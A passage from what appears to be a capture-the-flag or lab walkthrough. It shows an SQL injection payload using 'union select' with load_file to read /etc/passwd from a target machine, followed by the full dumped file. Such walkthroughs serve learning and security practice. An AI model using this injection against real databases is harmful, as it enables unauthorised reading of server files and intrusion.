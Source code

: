 Looking for another way to get into the machine, we see that we can also read files with our discovered SQLI.

```php
sm1l3z > union select null, group_concat(load_file('/etc/passwd'))
root:*:0:0:Charlie &:/root:/bin/ksh
daemon:*:1:1:The devil himself:/root:/sbin/nologin
operator:*:2:5:System &:/operator:/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/sbin/nologin
build:*:21:21:base and xenocara build:/var/empty:/bin/ksh
sshd:*:27:27:sshd privsep:/var/empty:/sbin/nologin
_portmap:*:28:28:portmap:/var/empty:/sbin/nologin
_identd:*:29:29:identd:/var/empty:/sbin/nologin
_rstatd:*:30:30:rpc.rstatd:/var/empty:/sbin/nologin
_rusersd:*:32:32:rpc.rusersd:/var/empty:/sbin/nologin
_fingerd:*:33:33:fingerd:/var/empty:/sbin/nologin
_x11:*:35:35:X Server:/var/empty:/sbin/nologin
_unwind:*:48:48:Unwind Daemon:/var/empty:/sbin/nologin
_switchd:*:49:49:Switch Daemon:/var/empty:/sbin/nologin
_traceroute:*:50:50:traceroute privdrop user:/var/empty:/sbin/nologin
_ping:*:51:51:ping privdrop user:/var/empty:/sbin/nologin
_unbound:*:53:53:Unbound Daemon:/var/unbound:/sbin/nologin
_dpb:*:54:54:dpb privsep:/var/empty:/sbin/nologin
_pbuild:*:55:55:dpb build user:/nonexistent:/sbin/nologin
_pfetch:*:56:56:dpb fetch user:/nonexistent:/sbin/nologin
_pkgfetch:*:57:57:pkg fetch user:/nonexistent:/sbin/nologin
_pkguntar:*:58:58:pkg untar user:/nonexistent:/sbin/nologin
_spamd:*:62:62:Spam Daemon:/var/empty:/sbin/nologin
www:*:67:67:HTTP Server:/var/www:/sbin/nologin
_isakmpd:*:68:68:isakmpd privsep:/var/empty:/sbin/nologin
_rpki-client:*:70:70:rpki-client user:/nonexistent:/sbin/nologin
_syslogd:*:73:73:Syslog Daemon:/var/empty:/sbin/nologin
_pflogd:*:74:74:pflogd privsep:/var/empty:/sbin/nologin
_bgpd:*:75:75:BGP Daemon:/var/empty:/sbin/nologin
_tcpdump:*:76:76:tcpdump privsep:/var/empty:/sbin/nologin
_dhcp:*:77:77:DHCP programs:/var/empty:/sbin/nologin
_mopd:*:78:78:MOP Daemon:/var/empty:/sbin/nologin
_tftpd:*:79:79:TFTP Daemon:/var/empty:/sbin/nologin
_rbootd:*:80:80:rbootd Daemon:/var/empty:/sbin/nologin
_ppp:*:82:82:PPP utilities:/var/empty:/sbin/nologin
_ntp:*:83:83:NTP Daemon:/var/empty:/sbin/nologin
_ftp:*:84:84:FTP Daemon:/var/empty:/sbin/nologin
_ospfd:*:85:85:OSPF Daemon:/var/empty:/sbin/nologin
_hostapd:*:86:86:HostAP Daemon:/var/empty:/sbin/nologin
_dvmrpd:*:87:87:DVMRP Daemon:/var/empty:/sbin/nologin
_ripd:*:88:88:RIP Daemon:/var/empty:/sbin/nologin
_relayd:*:89:89:Relay Daemon:/var/empty:/sbin/nologin
_ospf6d:*:90:90:OSPF6 Daemon:/var/empty:/sbin/nologin
_snmpd:*:91:91:SNMP Daemon:/var/empty:/sbin/nologin
_ypldap:*:93:93:YP to LDAP Daemon:/var/empty:/sbin/nologin
_rad:*:94:94:IPv6 Router Advertisement Daemon:/var/empty:/sbin/nologin
_smtpd:*:95:95:SMTP Daemon:/var/empty:/sbin/nologin
_rwalld:*:96:96:rpc.rwalld:/var/empty:/sbin/nologin
_nsd:*:97:97:NSD Daemon:/var/empty:/sbin/nologin
_ldpd:*:98:98:LDP Daemon:/var/empty:/sbin/nologin
_sndio:*:99:99:sndio privsep:/var/empty:/sbin/nologin
_ldapd:*:100:100:LDAP Daemon:/var/empty:/sbin/nologin
_iked:*:101:101:IKEv2 Daemon:/var/empty:/sbin/nologin
_iscsid:*:102:102:iSCSI Daemon:/var/empty:/sbin/nologin
_smtpq:*:103:103:SMTP Daemon:/var/empty:/sbin/nologin
_file:*:104:104:file privsep:/var/empty:/sbin/nologin
_radiusd:*:105:105:RADIUS Daemon:/var/empty:/sbin/nologin
_eigrpd:*:106:106:EIGRP Daemon:/var/empty:/sbin/nologin
_vmd:*:107:107:VM Daemon:/var/empty:/sbin/nologin
```